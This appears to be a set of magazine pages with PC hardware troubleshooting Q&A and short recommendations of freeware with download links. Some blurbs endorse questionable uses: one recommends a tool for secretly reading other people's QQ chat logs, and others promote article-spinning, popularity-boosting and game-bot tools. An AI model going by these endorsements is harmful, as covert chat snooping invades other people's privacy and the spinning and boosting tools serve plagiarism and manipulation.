答：右键单击任务栏的“小喇叭”图标，选择“播放设备”菜单，在“声音”窗口中选择“扬声器/耳机”，单击“属性”按钮，单击“高级”选项卡，可以看到在“默认格式”下，声音采样频率和位深度默认被设置为“16位，44100Hz”，将其改为“24位，96000Hz”后，单击“应用”按钮，单击“测试”按钮，一般问题可以解决。

## 系统自检到 CPU 停止

问：一台计算机使用AMD 速龙64 ×2 5000+的CPU，昂达 A79GS/128M的主板，1GB KINGSTON DDR2-800×2，启动计算机，自检到CPU时停止，请问这是什么问题造成的？

答：首先，建议你打开计算机主机箱，根据主板说明书找到清空BIOS的按钮或跳线，清空主板BIOS，看问题是否可以解决。如果问题仍然存在，建议你将硬盘、光驱依次拔掉，看最小系统能否通过自检，如果问题仍然存在，该问题一般应该是由于内存损坏或存在兼容问题造成的，建议你逐一插单条内存启动计算机，并更换内存插槽插接内存，从而找到问题内存。

## Windows 7 与 G45 显卡驱动不兼容

问：一台计算机使用G45主板，蓝光光驱，一直可以正常播放蓝光视频，最近安装Windows 7操作系统，播放蓝光电影一半时出现蓝屏死机等问题，请问这是什么问题造成的？

答：G45主板采用集成显卡，而Intel推出的老版本G45显卡驱动程序存在BUG，在Windows 7操作系统，使用第三方的视频播放软件长时间播放DVD或者蓝光视频后，会出现蓝屏死机的问题。建议你更新G45主板集成显卡驱动程序，一般问题可以解决。下载地址：http://tinyurl.com/y zxInky。

傻博士有话说：在更换或升级操作系统后，计算机出现一些死机、蓝屏、黑屏等故障，多半与新操作系统与原有硬件驱动程序不兼容有关，遇到此类问题，建议朋友们多关注一下硬件厂商的驱动程序更新情况，以便尽早解决问题。

## BIOS 设置不当造成无法无线上网

问：一台笔记本电脑，进入Windows XP操作系统，发现无线网络无法使用，系统任务栏右下角的“网络图标”上红色十叉，可是其他笔记本电脑都可以使用无线上网，请问这是什么问题造成的？

答：建议你单击“开始”菜单，选择“设置→控制面板”，双击“网络连接”，检查无线网络是否已经启用，如果未被启用，右键单击“无线网络”图标，在弹出的快捷菜单中选择“启用”，看问题是否可以解决。如果问题仍然存在，建议你用最新版本的杀毒软件进行杀毒，排除病毒造成的问题。建议你重新启动计算机，进入主板BIOS设置，选择Wireless Control（无线控制），将其设置为application（应用），保存退出主板BIOS，一般问题可以解决。

## Windows 7 下找不到 IDE 光驱

问：一台计算机使用Intel P45主板，IDE接口刻录机，最近升级为Windows 7操作系统，发现在Windows 7操作系统的“资源管理器”中光驱的图标不见，请问这是什么问题造成的？

答：该问题应该是由于主板芯片组和SATA驱动兼容造成的。建议你在“设备管理器”中，将光驱所对应的IDE通道删除，然后安装Intel Chipset Device Software 9.1.1.1015 PV版本的驱动程序，下载地址：http://tinyurl.com/yektdjk。然后安装Intel Matrix Storage Manager 8.9.0.1023，下载地址：http://tinyurl.com/y lq9uzb。

## 升级独立显卡硬盘发出响声

问：一台计算机一直使用集成显卡的主板，由于主板上有PCI-E 16X显卡插槽，最近购买了一块影驰 9800GT+中将版显卡，插入主板PCI-E 16X显卡插槽，启动计算机，硬盘出现“咔咔”的声音，请问这是什么问题造成的？

答：该问题应该是由于你添加独立显卡后，增加了电力的输出，造成电源供电不足，从而使硬盘发出异样的“咔咔”响声，建议在更换大功率电源之前，不要继续使用你的独立显卡，因为长期让硬盘工作在供电不足的状态下，会造成硬盘机械故障。

## 内存造成的蓝屏问题

问：一台计算机使用中经常出现蓝屏，提示如下：“……STOP:0×00000050(0×f800 00003……”，请问该如何解决？

答：该代码的意思应该有时是因为硬盘损坏，有时则是内存本身的硬件故障或是兼容性问题。建议首先替换这两种硬件及最近添加的硬件，看问题是否可以解决。此外，还可以检查驱动程序是否安装完毕，尽量安装最新并通过验证的驱动，如果问题没有解决，建议你进入主板BIOS选项，将cache或shadow等选项，设置为Disable。

## 集成显卡故障

问：一台计算机使用AMD 785芯片组主板，使用板载集成显卡，进入Windows 7操作系统后，画面会不定时地出现彩色横条，插入PCI-E16X独立显卡，可以正常使用，请问这是什么问题造成的？

答：首先，建议你重新安装通过WHQL认证的主板、显卡驱动程序，看问题是否可以解决。尤其是ATI的整合显卡，其显卡驱动更新是相当频繁的，新驱动会对旧驱动上的BUG进行修复，往往能解决诸如在游戏中花屏、死机等故障。

其次，一些主板厂商为了提高产品性能，出厂时将整合显卡的频率设定在比较高的频率下，一旦遇到机箱散热不畅的情况，就会导致芯片温度过高而造成工作异常。所以建议按DEL键进入主板BIOS设置，选择GFX Engine Clock（GFX频率），设置为650MHz，一般会比较稳定。

再次，更新主板BIOS也可以解决一些整合主板集成显卡故障，整合显卡和独立显卡一样，同样有独立的BIOS文件，不过整合显卡的BIOS是和主板BIOS并存在一起的（见图）。



### 131 玩玩游戏平台
当我带着熬夜的倦意，郁闷地看完火箭和湖人的季后赛第七场比赛的时候，我就立刻想在NBA 2K9中帮火箭Get Ready一下。于是就找到这款集游戏下载、管理于一体的“游戏平台”，大型单机游戏在这里一样有得下。
下载地址：http://www.newhua.com/soft/73651.htm

### 尚邮
新进小编狂暴鸭新入了BlackBerry手机，PushMail的价格吓退了他，于是在网上疯狂找起了替代品。“尚邮”就是这样一款软件，虽然没办法实时收到邮件，不过延迟也就一两分钟，就是小心流量别超了。
下载地址（支持包括BlackBerry在内的多种手机平台）：http://www.shangmail.com/

### JavaRa
用Java的软件越来越多，但运行之前，你的系统必须安装好Java虚拟机（JRE），但JRE的缺点是更新后不会自动把旧版本清除。
下载地址：http://hch.dl.sourceforge.net/sourceforge/javara/JavaRa.zip

### ViGlance
对Windows 7的任务栏我一直垂涎三尺，真是漂亮，可是我还真不喜欢它那个不停的Beta、RC的样子，所以在我的Windows XP上就采用了这款软件，来模拟它的任务栏。
下载地址：http://www.lee-soft.com/

### UnRARMenu
用WinRAR创建了自解压缩文件，在传给别人的时候，是不是希望他们不能看到右键菜单中的WinRAR选项？如果你有需求，那么这款软件肯定适合你。
下载地址：http://work.newhua.com/cfan/200912/UnRARMenu.rar

### SkiniTunes
用iTunes的一定要安装上这个插件，它非常漂亮，效果极佳，和千千静听等播放器一样，有多种窗口模式可以切换。
下载地址：http://www.newhua.com/soft/84840.htm

### 红薯淘宝批量评价器
作为一个淘宝卖家，你肯定每天都要面对N多的评价解释，如果要动手一一回复那是非常麻烦的。这款软件就是用来批量完成这事的。对于经常买衣服的淘宝小MM也可以用这款软件，它可以帮你批量给评价。
下载地址：http://jh.onlinedown.net/soft/85421.htm

### USB Manager
我的小外甥老随便用他那带毒的闪盘随便往我电脑里拷东西，于是为了安全，我就把它设置了密码，除非有密码不然你别想用我的USB。
下载地址：http://www.newhua.com/soft/85237.htm

### 我爱图片转换文本工具
当漂亮的图片因为各种原因不能被使用时，你一定要试试这款能够把图片转换为文本的工具，它可以将多种格式的图片转换为文本。转换的速度快，效果也很好。
下载地址：http://www.newhua.com/soft/84731.htm

### 漫画下载新助手：ComicAii
喜欢下载漫画的，肯定知道MangaDowner，不过已经很久没有它更新的消息了，最近的几次更新基本上也是减少可下载的网站了。而Comic Shelf一次最多只能下载500张，在这种情况下，ComicAii出现了，它具有MangaDowner样的下载方式，而且支持的网站也很多，非常方便。
打开软件，输入漫画的下载网址，设置好保存路径就可以开始“下载”了。你也可以像MangaDowner那样，同时开几个程序，同时下载多部漫画。
下载地址：http://comicai.ls-zone.cn/

### 帮你写“原创”博客的小工具：天天SEO伪原创工具
林子大了，真是什么鸟都有呀，连生成伪原创文章的工具都有了。对于那些想写原创文章，又没有时间的朋友这工具还是很有用了。软件的实现方法基本是用同义词进行替换，这样基本上看不出来区别，又能形成原创。不过小编测试了一下，感觉效果一般。
运行软件后，点击左上角的“新建”按钮，把复制的文章粘贴过来，点击“生成伪原创”按钮即可。
下载地址：http://www.newhua.com/soft/85155.htm

### CYY 发布助手
想炒作自己吗？那你肯定想把一篇文档发到N多论坛里，一个一个地来那是太麻烦了，而这款发布助手就是一次性帮你把文档发布到互联网上的小软件。
下载地址：http://www.onlinedown.net/soft/86426.htm

### 动者卡路里计算器
夏天一到，漂亮的小MM们就会开始减肥，作为一个男性，你当然需要指导她们如何吃好、如何运动了，这款软件就会给你提供多种食品的热量，背熟它们，出去吃饭时，就能点一桌子素菜，不仅省下口袋中的钱，还能美其名曰是为了她减肥……
下载地址：http://www.onlinedown.net/soft/84711.htm

### Adobe Reader 助手
简单地说，Adobe Reader助手能让Adobe Reader具有现在很多MP4的“断点续播”功能，若你电脑中有多个版本的Adobe Reader，这个“助手”还能保持它们之间的阅读统一，是一款很不错的免费小软件。
下载地址：http://www.newhua.com/soft/86272.htm

### Excel 筛选
也许你的老师或是老板需要让你把同一表格中的两个sheet中的数据进行比较，找出重复的数据，而这款软件就是完成这个目的的。
下载地址：http://sr.onlinedown.net/soft/86523.htm

### 个人理财专家
自称为“个人理财专家”的软件有很多款，这款软件的特点就是画面清新，功能设置细致而突出，是一款非常不错的记账软件。
下载地址：http://work.newhua.com/cfan/200913/personalfinance.rar

### 博客魔术手
从“魔术手”这个大俗名上估计你可能看不出来这软件的功能，其实它是为了美化博客用的，它可以生成Flash、图片代码，让你可以美化你的博客。对于不会代码的人，只要有个链接，它就能帮你生成代码，很容易使用。
下载地址：http://www.skycn.com/soft/55515.html

### 魔兽地图傻瓜下载器
魔兽争霸玩家不要错过的软件，它是能自动搜索魔兽争霸安装目录，自动下载游戏地图的软件。
下载地址：http://www.skycn.com/soft/55201.html

### 校内网人气精灵
要刷校内人气吗？这软件就是用来干这个的，肯定有不少人喜欢互相踩来踩去吧，它能满足你的这个愿望，还能省不少事。
下载地址：http://www.cnblogs.com/nerv3x3

### QQ 停车位全能助手
自从有了“停车位”，现实中也好，校内也好，开心也好，人人都在抢，于是就有了各种“外挂”、“助手”、“司机”，其中有些居然还打起了收费的主意，好在免费的午餐还是有人在提供的。
下载地址：http://work.newhua.com/cfan/200913/qqtcwqnzs.zip

### FLV Extract
从网上下载了FLV文件，想把里面的音频提取出来，你会怎么办呢？用这款软件就能帮你解决这个小问题。
下载地址：http://www.onlinedown.net/soft/60515.htm

### 淘宝专用搜索工具
建议向所有喜欢“淘宝”的MM都推荐上这款软件，它可以非常方便地搜索到物品。重要的是它不用安装，运行后，只有一小条，输入物品名称，就能快速搜索了。
下载地址：http://work.newhua.com/cfan/200913/taobaos.rar

### 国外网盘下载器：FreeRapid Downloader
要说现在最流行的分享方式是什么，那肯定有不少答案，比如BT、PT，还有新兴的网盘下载，除了我们熟知的纳米盘、RayFile外，国外也有很多网盘，但速度慢不说，通常还不让使用下载工具，自然也就没办法断点续传。
FreeRapid Downloader就是用来解决这个问题的，它通过插件的形式来添加网盘的。进入软件，点击“新增连接”按钮，把网盘的地址复制到其中，就可以进行下载了。
下载地址：http://dl.pconline.com.cn/download/53608.html

### 偷偷的我将查看聊天记录：塞博聊天记录监控器
偷窥别人的QQ聊天记录估计是很多男男女女急需的功能，但QQ 2009对聊天记录的保存文件做了很多修改，以前的聊天记录查看工具已经通通作废，“塞博聊天记录监控器”则是少有的QQ 2009聊天记录查看软件。
先关闭QQ 2009，然后运行软件，就可以查看QQ聊天记录了。
下载地址：http://work.newhua.com/cfan/200913/CyboChat.rar

### QiQi 淘宝店铺监视自动助手
虽然我们之前已经介绍过类似的淘宝店铺助手，但这款软件功能更强大，推荐大家使用。
下载地址：http://www.newhua.com/soft/86996.htm

### 黑营 QQ 军刀
现在QQ的工具真是不少，加上QQ又推出了抢车位等游戏，这类软件如春笋般疯狂出来。
下载地址：http://www.skycn.com/soft/54991.html

### SyncPlicity
这是一款在网络多文件夹同步工具，最大可免费使用6GB空间，当然它的缺点是服务器在国外，但好在除了第一次上传的时间较长外，之后的同步速度还是可以保证的。
下载地址：http://www.syncplicity.com/

### 文献检索列表转换器
这个软件的功能比较简单，就是把网上论文检索结果制作为Excel表格。
下载地址：http://www.onlinedown.net/soft/78690.htm

### 热血三国辅助
热血三国这游戏知道吧？玩的人不少吧，这软件具备可自动城内、城外建筑升级、科研点击、安抚民心等功能，玩家必备。
下载地址：http://work.newhua.com/cfan/200914/sgwg.rar

### 日语单词进阶背诵工具
绿色的背单词软件，当然特别之处在于它是一款免费的日语单词记忆软件。
下载地址：http://bj.newhua.com/soft/86929.htm

### 搜狗音乐盒
现在音乐盒一大堆，没点新特色，是很难入得高手法眼。搜狗的特别之处在于，它会自动推荐你喜欢的那类音乐，还能把歌曲导入iPod、iPhone、手机等播放设备中，同时还具有音乐电台功能。
下载地址：http://mbox.sogou.com/desktop/download.html

### Safari 4
号称最快的浏览器，先不说别的，界面够得上华丽，它的TopSite界面绝对让Google Chrome “Play Go”（郭德纲语：玩去）。不过，就像苹果的Mac OS一样，它的浏览器同样需要用惯Windows浏览器的人改一改习惯。
下载地址：http://www.onlinedown.net/soft/59990.htm

### 勇芳 QQ 快捷菜单
这款软件是用来替换QQ快捷回复菜单的，对于很多客户服务的人来说，每天重复的那几句话，用这个快捷菜单就会很轻松了。
下载地址：http://www.yfvb.com/Soft/100.htm

### 装机人员专业工具箱
这东西就是为了装电脑时方便进行设置的工具，里面集成了一些小工具以及批处理文件。
下载地址：http://work.newhua.com/cfan/200914/zjzytools.rar

### 注册表垃圾清理器
有洁癖的人是不喜欢系统里面有任何垃圾的，对于“注册表”这种藏污纳垢的地方自然需要重点清理。
下载地址：http://work.newhua.com/cfan/200914/regeditclear.rar

### 新浪 UT Game
UT Talk变身后的新工具，多少网游玩家的必备工具，可以说这东西绝对是功能强大的语音沟通聊天工具。
下载地址：http://utg.sina.com.cn/

### 在线视频全下载：xmlbar
这款软件虽说我们之前有过简单的介绍，但这次它又让小编吃惊了一把，几乎所有流行的视频网站都可以在这里找到下载器，比如优酷（支持分块下载并且自动合并）、土豆、CCTV视频等等。运行软件后，输入优酷网的地址，并设置好保存目录，然后点击“下载”即可。
下载地址：http://www.xmlbar.com/

### 推翻 “服务器” 的统治地位：Opera Unite
自从有了网络，我们所做的很多事情就要经过“服务器”，要是只想分享一些比较隐私的秘密怎么办呢？没想到Opera居然利用他们最新的Opera Unite解决了这个问题。Opera Unite是一种非常方便的与其他人共享你的数据的技术，比如传个文件、照片或者音乐，最重要的是它不需要通过第三方服务器。下载软件后，点击“工具→Opera Unite服务→启用Opera Unite”，在完成注册后，就可以像使用软件那样享受无服务器的P2P服务了。
下载地址：http://www.onlinedown.net/soft/24324.htm

### 迷你迅雷
现在流行小巧，比如上网用上网本，操作系统用Lite版，杀毒软件用上网本专用版，而对于迅雷这款下载软件，它也提供了迷你版，占用资源少，除了下载没有其他功能，非常适合“系统资源吝啬者”使用。它是以工具栏的形式安装的，“系统洁癖综合症”患者“绕行”。
下载地址：http://www.newhua.com/soft/87277.htm

### Go 手机浏览器
每次上下班在公交车上都可以看到众多少男少女，拿着手机，忙着看各种新闻。其中大多是统一的UCWeb。这回Go手机浏览器的推出最起码为我们增加了一种选择，同时它界面的确漂亮。
下载地址：http://dl.pconline.com.cn/download/55343.html

### 超级解霸 3500
想当初的王道播放器，在怀揣着“凤凰涅磐之后是草鸡”的心态安装后，打开的那一瞬间，界面是如此的熟悉，当然了主流视频格式都可以随意播放，在这个“暴风门”的非常时期，换个播放器好像也没什么。
下载地址：http://www.herosoft.com/

### 婚礼请柬
看到这个工具我被“雷”到了，真是软件世界之大，无奇不有，这软件可以轻轻松松帮你用Word打印婚礼请柬，它就这么一个功能……准备结婚的“童鞋们”来吧。
下载地址：http://www.onlinedown.net/soft/26196.htm

### Batch Image Resizer
批量处理图片一直是很多图片处理软件的软肋，不是功能不强，就是安装体积庞大，于是就有了专门批量用于图片处理的软件，它可以批量对图片进行调整大小、旋转、添加水印、转换格式等操作。
下载地址：http://www.onlinedown.net/soft/30623.htm

### Marxio Timer
“任务计划程序”已经从很老的Windows中就出现了，我们也做过很多关于这类程序的技巧，但它的功能的确有点鸡肋，而这款软件对于那些有“任务计划”的人来说，完全是“雪中送炭，夏日予扇”般的及时温暖、凉快……
下载地址：http://www.onlinedown.net/soft/85971.htm

### 360 杀毒
这一刻“360安全卫士”灵魂附体，免费，免费，免费！完全免费的杀毒软件，全新设计的界面，让你基本上已经看不到BitDefender的影子了，总之不想花钱用杀毒软件的，换上这款吧。
下载地址：http://www.onlinedown.net/soft/69529.htm

### 魔爪
听名字有点像恐怖大魔王降临一样，口号更是很狂很暴力——没有能逃出“魔爪”的小说，其实它就是原来的“TXT小说下载工具”，换了马甲“重现江湖”，增加了一些网络的服务（比如网上书签、设置网上存等等）。
下载地址：http://www.mozhua.net/

### 东奔西走，不如一软在手：U盘百宝箱
自从闪盘变成了白菜价，在完全干掉软盘、MO之后，大有完全替代DVD的趋势。而且不少人可以没有电脑，但必备闪盘，什么情书呀、漂亮MM照片呀，小小的闪盘上有多少人的秘密呀！于是闪盘的烦恼就来了，怎么保证它的安全？出了问题怎么修复？如何加密上面的数据？这么多要求，每个都需要一款专门的软件来完成那不是要累死？“U盘百宝箱”是集合了多款闪盘相关软件的工具大集合型工具，根据你的需要点击相应的按钮，就可以实现对应的功能了。
下载地址：http://jsmcc.newhua.com/soft/87990.htm

### 不逊于 F**、E** 的文件恢复软件：R-Studio
说起文件恢复，大家第一个想到的就是F**和E**（如果有不知道的，那就直接用R-Studio吧）。不过，毕竟F**和E**已经“廉颇老矣，估计不能饭了！所以有网友亲自对比了三款软件，前两者恢复的大文件很多都无法使用，而R-Studio不存在这种问题，而且速度又快，恢复的文件还能保存原有的目录结构。运行软件，选择好分区，点击“驱动器→扫描”菜单项，就能扫描出数据了。
下载地址：http://www.newhua.com/soft/8654.htm

### 射手影音播放器
在经历了多个版本的更新后，当小编再次测试“射手影音播放器”时，多数电影的字幕已经可以正确下载了。这对于高清爱好者来说是相当方便的，特别是给不懂电脑又喜欢看电影的MM，字幕下载功能就如同魔术一样……
下载地址：http://www.newhua.com/soft/84854.htm

### 世界之窗浏览器
3.0版的世界之窗浏览器从皮肤上看变化是巨大的。至于使用上的体会，则是资源占用减小，假死的情况进一步减少等等。
下载地址：http://www.ioage.com/tw/default.html

### 贝壳木马专杀
打架怕玩命，打网游怕盗号，打架还有《九阴真经》、《葵花宝典》、倚剑之类的小道具。打网游咱也不能“裸奔”上线吧？这款号称专为网游盗号量身打造，查杀速度很快的木马专杀工具特别适合那种着急玩游戏，又怕号被盗的人。
下载地址：http://www.beike.cn/

### 迅雷定时下载工具
之前总说白天迅雷下载太占带宽，改成晚上下载就是了嘛。
下载地址：http://work.newhua.com/cfan/200916/xldsxz.rar

### 作文之星 & 作文快手
就小编个人来说，小时候老师布置的暑假“X十篇”作文那是相当痛苦的，关键是体裁难找。有了电脑就是不一样，反正有范文，文章很轻松就能搞定。
下载地址：http://work.newhua.com/cfan/200916/zwks.rar http://work.newhua.com/cfan/200916/zwzx.rar

### 右键菜单管理器
过长的右键菜单一直让小编烦得不成，当然修改注册表是可以清除它们的，不过有个小工具可以方便很多。
下载地址: http://work.newhua.com/cfan/200916/rmmgr.rar

### 网络证件恶搞工具
这东西就提供给喜欢搞怪的小朋友们吧。
下载地址: http://www.skycn.com/soft/56504.html

### 成绩统计3分钟
统计成绩只需要3分钟，快吧！
下载地址: http://work.newhua.com/cfan/200916/excelcjt.rar

### Atrise Lutcurve
校准显示器的软件。
下载地址: http://www.newhua.com/soft/849.htm

### 决策主力下载器
炒股是有风险的，所以这类软件挺多，至于信不信软件提供的信息，决策还是在你！
下载地址: http://www.newhua.com/soft/88715.htm

### QQ空间克隆器
把别人QQ空间里的好东西，一股脑弄到自己的空间里面。
下载地址: http://www.onlinedown.net/soft/88542.htm

### QQ同步助手
iPhone和WM的手机早就能把联系人备份到Gmail邮箱中，这次腾讯倒是给Symbian S60手机做了件好事。“QQ同步助手”可以超快速把你的联系人同步到网上或是存储卡中，就算换手机也一样能用，真正实现了山寨机的一大功能！
下载地址: http://mobile.qq.com/pim/index.html

### OperaTor
常在网上飘，总会有是不能访问的网站，遇到这种网站，CFan之前介绍过可以用Tor来解决，不过这东西设置起来有点麻烦，OperaTor则是在Opera中集成了Tor，遇到不能访问的网站就来试试它！
下载地址: http://archetwist.com/opera/operator

### 极点五笔输入法
相信过不了多久，大家就会看到QQ极点输入法了，而在这之前，极点五笔输入法推出了7.0预览版，这样你在Windows 7和64位系统中也可以使用习惯的极点五笔了。
下载地址: http://dl.pconline.com.cn/html_2/1/77/id=7073&pn=0.html

### 歌谱精灵
年少的我，最羡慕的就是那些会弹吉他的同学，不管他们长成什么鬼样子，只要能弹，管他是棉花还是吉他，立刻就能吸引大量MM的目光。只是当时所有流行歌曲的谱子极少流出，所以基本靠“扒”（指直接听歌，自己琢磨曲谱），现在这种情况就没有了，只要你知道歌名，就有谱！
下载地址: http://www.zhaogepu.com/jingling/

### 按键映射器
街霸4在编辑部极为流行，我作为“键盘流”的高手由于水平过高，一度被怀疑作弊。既然如此索性我就来个假戏真做——就来个“一键大招”吧！
下载地址: http://work.newhua.com/cfan/200917/hotkeymap.rar

### Audio Video Synchronizer
随着各大压片组的竞争，影音不同步的现象越来越少见，但这种现象仍然是存在（尤其是一些比较珍贵的老片子），在电脑上还好，可以通过播放器调整同步，换到MP4上就惨了。为了保存一份完美的视频，还是调整一下同步吧……
下载地址: http://work.newhua.com/cfan/200917/avsync.rar

### 新浪互联星空播客上传工具
有了这个东西，上传视频的时候再也不怕断线了，还能直接用摄像头录制，那是相当方便。
下载地址: http://down.tech.sina.com.cn/content/37440.html

### 游戏名字生成精灵
收集了一些90后个性名字，然后套上了个“游戏”和“精灵”的名头，倒是足够吸引眼球。
下载地址: http://download.it168.com/228/231/117616/index.shtml

### U盘只读不存
让闪盘插入USB接口后，只能读取里面的资料，不能写入！
下载地址: http://work.newhua.com/cfan/200917/uzd8.rar

### 能邦敏感信息审查
别人用的你电脑做了些什么呢？是不是插了闪盘？用IE访问了哪些网站呢？这些都可以用这款软件帮你查找到；还非常神秘的有个“取证”（其实就是把相关的文件另存为）功能。总之是个功能另类的实用小工具，而且它只有一个文件，适合你放在闪盘里移动使用。
下载地址: http://work.newhua.com/cfan/200918/NBsec.rar

### 笔记本守卫者
虽然这个“守卫者”没有HP、MP这类的概念，而且它也不能在小偷偷走你的笔记本前帮你把他送进派出所，当然对于山寨机“标配”的机器被偷后发送重要信息到新机器中的功能它也不具备。它有的就是有人企图合盖，或拔掉电源、鼠标或是关机时，用最大音量“大叫”！不过它也有个缺点——它只能运行在Vista或是Windows 7操作系统下。只是有两点需要注意：一是插上耳机的话，再大的音量也白搭；二是软件“大叫”之后记得把音量调回，不然有你耳朵受的！
下载地址: http://work.newhua.com/cfan/200918/Laptop.rar

### 九零天空服务设置工具
人总是贪心的，于是Windows本身就走了平衡路线，又要办公，还必须能娱乐，直接导致运行环境并不是最佳，在这种条件下，也许一款可以随时改变系统服务的软件会让你的电脑运行状态在不同时刻有着不同的效果。
下载地址: http://work.newhua.com/cfan/200918/90Sky.rar

### 实创通信录
通信录管理软件，你要是有很多联系人需要管理，这款软件是一种选择。
下载地址: http://www.onlinedown.net/soft/70044.htm

### 好压
从名字就可以看出，它是骂……不，是一款压缩软件！足可以媲美WinRAR的压缩软件。与WinRAR相比，它具有图片预览、多媒体合并、智能图片转换等功能。除了不能压缩RAR文件（可解压）外，它几乎可以完美代替WinRAR了。
下载地址: http://www.haozip.com/index.htm

### Shape Collage
这个工具是制作拼贴图的最佳工具，它能制作出心形、圆形、文字等多种排列方式的拼贴图，你还能设置背景、边框颜色，而且它还是中文的，方便使用得没天理……
下载地址: http://work.newhua.com/cfan/200918/SC.rar

### 判断显示器好坏
如果你的显示器不管怎么调整只能显示到第六行，那你的把显示器扔掉！显示到七八行算是刚及格，显示到全部，那算牛X了。
下载地址: http://work.newhua.com/cfan/200918/xs.jpg

### 天涯浏览器
上班族偷偷看天涯的利器，用Excel表格伪装。浏览时，选中一个“帖子”，点击Load Posts就可以偷偷看了。
下载地址: http://work.newhua.com/cfan/200918/tianya.rar

### 畅游精灵
新推出的2.0和1.0相比完全就是两款软件，漂亮的界面，更强大的保护功能……
下载地址: http://www.sucop.com/

### 光盘伺服器
这个提取自豪杰V9中的小工具，可以让你用指定程序播放光盘中的视频文件。功能不大，对于家里有老人的来说，还是非常有用的。
下载地址: http://work.newhua.com/cfan/200919/SysExplr.rar

### 泰力
不要以为这软件和泰山有什么关系，不过经常使用它倒是可以让你拥有“泰山”一样的“脖肌”。它是一款用摄像头来控制电脑的软件。于是你可以用它来玩赛车，来玩Flash游戏，浏览图片和相册。虽然目前还不成，不过估计过不了多久，WOW也可以用摄像头操作了。
下载地址: http://teli.fli8.cn/

### APK安装器
如今Android就如雨后春笋般出现在各大手机品牌中，而它用的软件就是APK格式，这是一款在PC端安装APK文件到手机上的软件。
下载地址: http://down.android123.com/apkinstaller.exe

### 专用链接转换工具
可以将迅雷、网际快车、QQ旋风等专用地址转换为普通网址的小工具。虽说也号称具有RayFile地址的功能，不过经小编测试下载失败，看来网盘还是用专用工具来下载比较好。
下载地址: http://work.newhua.com/cfan/200919/zyl.rar

### 电脑硬件接口详细图解
很全，大全，看过这图之后你肯定也会有感慨，收藏吧！
下载地址: http://work.newhua.com/cfan/200919/yjkt.png

### 灰色菜单克星
这绝对是“灰色按钮克星”的升级版本，这一刻所有灰色选项都不再出现，并且它不是一个功能在战斗，它还具有灰色按钮可用功能，留着点儿。吧，说不定哪款软件中暗藏的小秘密就被你发现了……下载地址：http://work.newhua.com/cfan/200919/EnableMenu.rar

## 淘宝图片助手

别看我不是淘宝卖家，但时不时地弄点二手产品拿出来卖卖还是有可能的，为了它还学习一下美化照片的方法有点过了，还好有这么个软件在帮忙。

下载地址：http://165.newhua.com/soft/91150.htm

## 博客沙发王

虽说这类工具被人认作是不太好的工具，但这个工具是通过不停刷新来监视对方博客的方式进行的，所以也算不上“恶毒”，有这种习惯的不妨试试看。

下载地址：http://work.newhua.com/cfan/200919/bksh.rar

## 魔兽版本转换器3.1

这个绝对是电子竞技爱好者的必备软件，可以快速地把魔兽转为1.20~1.24中的任意版本，带着自己的笔记本到外面踢场子的时候再也不怕版本问题了。

下载地址：http://work.newhua.com/cfan/200919/Warcraftchange.rar

## 瓷砖马赛克设计软件

装修的时候估计不少人都喜欢用一些漂亮的马赛克拼出图案做装饰，而这款软件就可以把任意图形变成马赛克，想想看吧，每天对着马赛克版的擎天柱，多酷的事情呀！

下载地址：http://work.newhua.com/cfan/200919/MaskMaker.rar

## 暴风转码

忆当年，为了转换几部PSP可以播放的电影，我的电脑需要彻夜工作，这种没天理的事居然让NVIDIA这个显卡厂商的CUDA给解决了，而这款“暴风转码”则不仅能通过CUDA大幅度压缩转换时间，而且还支持多种视频格式转换。为了专精，这款软件主要针对的是手持设备，所以不管是手机，还是MP3/4（不得不说，连部分MP3都考虑到了），就没有暴风转码不能转换出来的。

下载地址：http://zm.baofeng.com/

## 中键双击

鼠标上的中键就像是广阔大陆上的沙漠，除了浏览网页或文档时会用到的上下滚轮外，估计一般的新手都忘记了它还可以点击的功能。而这款软件就可以让它焕发第二春……

下载地址：http://work.newhua.com/cfan/200920/sbzj.rar

## 太阳花浏览器

Chrome自从推出之后，让一堆“IT愤青”看到了新希望。面对这种情况，不少高手就推出了各种修改版，太阳花就是其中之一。继承了Chrome速度、稳定的特点之外，还增加了鼠标手势、兼容IE内核以及其他浏览器的一些功能。

下载地址：http://www.lovechrome.com

## 电影收藏家

看片、游戏、聊天是目前多数人买电脑的主要原因。片子慢慢下载多了，就需要管理了；于是就有了专门的管理软件。比如刻到什么盘上了，放在硬盘上的什么位置了，影片的简介是什么，这些都可以通过这款软件来管理。

下载地址：http://www.newhua.com/soft/81165.htm

## 魅佳(AddOnis)

有人说当你用过一次BlackBerry手机后，你就不会再放弃它，估计“魅佳”的作者也不能例外。毕竟防火墙，自动锁定，短信签名等实用功能不是对BlackBerry手机的钟爱，还真是很难设计出来。

下载地址：http://berryon.com/

## 品牌机隐藏分区(释放)工具

现在的品牌机都喜欢留着几十GB的空间当作隐藏恢复分区，高手当然没必要，用工具清除掉它们吧（支持方正、浪潮、联想等HPA分区的品牌机）。

下载地址：http://work.newhua.com/cfan/200920/pjyx.rar

## QQ浏览器(手机版)

虽说腾讯除了QQ外，别的软件都算不上老大，但好在都有各自的特点，也许你尝试之后会喜欢它也说不定。

下载地址：http://mobile.qq.com/qqbrowser/index.html

## 笑话集中营

不管是泡妞，还是吃饭，幽默的男人永远都是主角，有了这个“集中营”，你总会是焦点的。

下载地址：http://www.newhua.com/soft/23899.htm

## 常用软件运行库

缺少DLL的日子，就是软件无法运行，游戏不能Play的时候，遇到问题了，不妨试试这款软件。

下载地址：http://work.newhua.com/cfan/200920/activex.rar

## 笔记本防盗大师0.6 beta

笔记本防盗软件，具有远程防盗的功能，由于是测试版，所以官方网站有时无法访问，导致远程防盗未测试，本地防盗经测试没问题。

下载地址：http://crconlinedown.net/soft/92237.htm

## 移动游戏启动器1.9.9.710

可以备份游戏的存档工具，号称如果不把首页修改为“网址导航”就只能使用五分钟，但实测超过五分钟也可以继续使用。

下载地址：http://work.newhua.com/cfan/200920/DataGame.zip

## 笔记之王2009 3.06

网页、资料收集类软件，使用后会修改IE首页。

下载地址：http://www.newhua.com/soft/77726.htm

## 数据恢复软件10合1

这个60MB的大玩意让我想起了小时候的黄金4合1游戏卡，里面的“料”实在不少，几乎囊括了所有主流恢复软件，放到闪盘里也是一个不错的选择。

下载地址：http://work.newhua.com/cfan/200921/SaveData.rar



## 狂人QQ好友分析师

它最大的好处就是能分析出对方是否是你的好友——还真让小编不爽，N多人都把我删除了……另外，还可以查看对方是男是女，列表的方式能让你一目了然。

下载地址：http://work.newhua.com/cfan/200921/hyfxs.rar



## 用口诀背英语单词

一说到学英语，背单词，几乎每家都有不同的方法，有什么联想法、唱歌法……而这款软件是口诀法。

下载地址：http://down.tech.sina.com.cn/page/45080.html

